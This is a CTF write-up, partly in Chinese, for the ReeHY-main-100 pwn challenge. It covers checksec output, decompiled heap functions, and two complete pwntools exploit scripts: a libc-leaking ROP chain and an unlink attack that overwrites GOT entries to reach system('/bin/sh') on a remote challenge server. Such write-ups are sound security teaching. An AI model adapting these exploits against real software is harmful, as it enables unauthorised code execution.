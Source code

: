 ```yaml
---
title: Challenges_100-Week_2
date: 2021-01-16 12:39:19
tags: 
 - PWN
 - CTF
 - Heap
categories: "PWN"
banner_img: /pic/week2.jpg
---
```


# Challenges_100-Week_2

|        Challenges         |            Tricks            |
| :-----------------------: | :--------------------------: |
| 攻防世界-4-ReeHY-main-100 | `ROP`/`unlink`+`double free` |

<!-- more -->

# 4-ReeHY-main-100

## checksec

```shell
[*] '/home/niebelungen/Desktop/pwn/4-ReeHY-main-100/pwn'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## IDA

```c
int __fastcall create(__int64 a1, __int64 a2)
{
  int result; // eax
  char buf[128]; // [rsp+0h] [rbp-90h] BYREF
  void *dest; // [rsp+80h] [rbp-10h]
  int v5; // [rsp+88h] [rbp-8h]
  size_t nbytes; // [rsp+8Ch] [rbp-4h]

  result = chunk_num;
  if ( chunk_num <= 4 )
  {
    puts("Input size");
    result = ((__int64 (__fastcall *)(const char *, __int64))choice)("Input size", a2);
    LODWORD(nbytes) = result;
    if ( result <= 0x1000 )
    {
      puts("Input cun");
      result = ((__int64 (__fastcall *)(const char *, __int64))choice)("Input cun", a2);
      v5 = result;
      if ( result <= 4 )
      {
        dest = malloc((int)nbytes);
        puts("Input content");
        if ( (int)nbytes > 112 )
        {
          read(0, dest, (unsigned int)nbytes);
        }
        else
        {
          read(0, buf, (unsigned int)nbytes);
          memcpy(dest, buf, (int)nbytes);
        }
        *(_DWORD *)(size_t + 4LL * v5) = nbytes;
        *((_QWORD *)&position + 2 * v5) = dest;
        signal[4 * v5] = 1;
        ++chunk_num;
        result = fflush(stdout);
      }
    }
  }
  return result;
}

__int64 dele()
{
  __int64 result; // rax
  int v1; // [rsp+Ch] [rbp-4h]

  puts("Chose one to dele");
  result = choice();
  v1 = result;
  if ( (int)result <= 4 )
  {
    free(*((void **)&position + 2 * (int)result));
    signal[4 * v1] = 0;
    puts("dele success!");
    result = (unsigned int)--chunk_num;
  }
  return result;
}
```

## ROP

首先看使用常规ROP，在create处，if条件和read得nbytes产生明显的溢出。

## exp-ROP

```python
from pwn import *
from LibcSearcher import LibcSearcher
leak = lambda name,addr: log.success('{:#x}'.format(name,addr))
context.log_level="DEBUG"
context.arch="amd64"
local=0
binary='./pwn'
#gdb.attach(p)
if local:
	p=process(binary)
else:
	p=remote('220.249.52.133',34354)
elf = ELF(binary,checksec=False)
#libc=ELF('./ctflibc.so.6')
pop_rdi=0x400da3
main_addr=0x400c8c
p.sendlineafter('$ ','1234')
p.sendlineafter('$ ','1')
p.sendlineafter('Input size\n','-1')
p.sendlineafter('Input cun\n','1')
payload='a'*0x88+'\x00'*0x8+'a'*0x8+p64(pop_rdi)+p64(elf.got['puts'])+p64(elf.plt['puts'])+p64(main_addr)
p.sendlineafter('Input content',payload)

p.recv()
puts_addr=u64(p.recv()[:6].ljust(8,'\x00'))
log.success('puts_addr:'+hex(puts_addr))
libc=LibcSearcher('puts',puts_addr)
libc_base=puts_addr-libc.dump('puts')
system=libc_base+libc.dump('system')
bin_sh=libc_base+libc.dump('str_bin_sh')
log.success('libc_base:'+hex(libc_base))

p.sendline('Niebelungen')
p.sendlineafter('$ ','1')
p.sendlineafter('Input size\n','-1')
p.sendlineafter('Input cun\n','1')
payload='a'*0x88+'\x00'*0x8+'a'*0x8+p64(pop_rdi)+p64(bin_sh)+p64(system)
p.sendlineafter('Input content',payload)

p.interactive()
```

## unlink

`0x6020E0`处储存着申请的堆的指针和状态信息，经过调试，我们可以申请到这个数组附近的chunk，所以我们通过unlink来修改这个数组的信息，使某一指针指向got表，从而对got表进行修改。

首先申请一个chunk，用来写‘/bin/sh’。然后申请三个size>fastbin的chunk1，chunk2，chunk3，将chunk2和chunk3都free掉。之后申请一个size等于chunk2+chunk3。这样我们实际获得了chunk3头部的控制权。在chunk2的数据域中构造fake_chunk，修改chunk3的头部进行unlink。

unlink后：

```text
==> |0			| <== ptr - 0x18
	|			|
	|			|
	|ptr - 0x18 | <== ptr
```

这时修改`*ptr`为`free@got`

```text
|padding |
|padding |
|padding |
|free@got| <== ptr
```

此时`ptr`指向`free@got`，向ptr中写数据就是修改`free@got`

## exp-unlink

```python
from pwn import *
from LibcSearcher import LibcSearcher
leak = lambda name,addr: log.success('{:#x}'.format(name,addr))
context.log_level="DEBUG"
context.arch="amd64"

local=0
binary='./pwn'
#gdb.attach(p)
if local:
	p=process(binary)
else:
	p=remote('220.249.52.133',31890)
elf = ELF(binary,checksec=False)
atoi_got=elf.got['atoi']
puts_plt = elf.plt['puts']
free_got = elf.got['free']
puts_got = elf.got['puts']
heap = 0x602100

def create(size,index,content):
    p.sendlineafter('$ ','1')
    p.sendlineafter('Input size\n',str(size))
    p.sendlineafter('Input cun\n',str(index))
    p.sendafter('Input content\n',content)

def delete(index):
    p.sendlineafter('$ ','2')
    p.sendlineafter('Chose one to dele\n',str(index))

def edit(index,content):
    p.sendlineafter('$ ','3')
    p.sendlineafter('Chose one to edit\n',str(index))
    p.sendafter('Input the content\n',content)

p.sendlineafter('$ ','Niebelungen')
create(0x200,0,'/bin/sh\x00')
create(0x200,1,'first')
create(0x200,2,'second')
create(0x200,3,'third')
#gdb.attach(p)
delete(3)
delete(2)

payload=p64(0)+p64(0x201)+p64(heap-0x18)+p64(heap-0x10)+'a'*(0x200-0x20)+p64(0x200)+p64(0x200)
create(0x400,2,payload)
#unlink
delete(3)
payload=0x18*'1'+p64(free_got)+p64(1)+p64(atoi_got)
edit(2,payload)
edit(2,p64(puts_plt))
delete(3)
atoi_addr=u64(p.recvn(6).ljust(8,'\x00'))
libc=LibcSearcher('atoi',atoi_addr)
offset=atoi_addr-libc.dump('atoi')
system_addr=offset+libc.dump('system')
edit(2,p64(system_addr))
delete(0)

p.interactive()
```

